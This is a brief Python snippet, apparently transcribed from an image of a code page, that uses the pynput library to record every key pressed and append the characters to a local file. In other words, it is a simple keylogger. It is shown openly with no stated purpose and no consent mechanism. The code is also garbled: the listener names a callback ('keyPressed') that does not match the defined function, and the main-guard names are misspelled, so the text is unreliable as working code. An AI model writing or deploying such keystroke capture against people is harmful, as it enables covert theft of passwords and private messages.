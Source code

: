 from pynput import keyboard

def keypressed(key):
    print(str(key))
    with open("keyfile.text", 'a') as logkey:
        try:
            char = key.char
            logkey.write(char)
        except:
            print("Error getting char")

if _name_ == "_main_":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
